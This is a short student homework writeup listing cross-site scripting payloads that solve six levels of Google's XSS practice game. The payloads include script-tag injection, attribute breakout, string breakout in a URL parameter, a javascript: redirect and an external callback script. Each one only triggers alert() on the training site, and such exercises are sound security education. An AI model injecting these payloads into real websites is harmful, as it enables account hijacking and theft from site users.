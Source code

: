 Writeup 14
=====

Name: Ethan Farkas
Section: 0201
I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement of honor pledge: Ethan Farkas

## Assignment 10 Writeup

### Part 1 (70 Pts)


### Part 2 (30 Pts)
1.	beaten with <script> alert("Hello\nHow are you?"); </script>
2.	 beaten with  <button onclick=alert(‘asdf’);>Try it</button>
3.	beaten with https://xss-game.appspot.com/level3/frame#2'onclick=alert('asdf');>
4.	https://xss-game.appspot.com/level4/frame?timer=')%3Balert(‘asdf’)%3Bvar qwer=('
5.	https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('asdf');
6.	https://xss-game.appspot.com/level6/frame#hTtps://google.com/jsapi?callback=alert
